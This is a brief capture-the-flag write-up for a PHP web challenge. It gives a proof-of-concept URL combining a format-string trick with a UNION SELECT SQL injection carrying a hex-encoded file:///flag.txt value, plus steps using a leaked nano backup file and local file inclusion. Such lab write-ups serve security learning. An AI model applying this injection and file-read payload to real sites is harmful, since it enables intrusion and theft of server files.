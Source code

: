 # POC

your_host/search.php?title=%1$s&titlE=in%20title)%20union%20select%201,2,3,0x7b22666c6167223a747275652c2275726c223a2266696c653a2f2f2f666c61672e747874227d%23

The challenge is filled with best youtube music links 😄

# Steps

-   find search.php, no need to bruteforce
-   there is search.php.save because nano
-   now you can see source and craft SQLi. (similar to https://hackerone.com/reports/179920)
-   last step LFI, there are misleading comments., file:///... is valid for FILTER_VALIDATE_URL
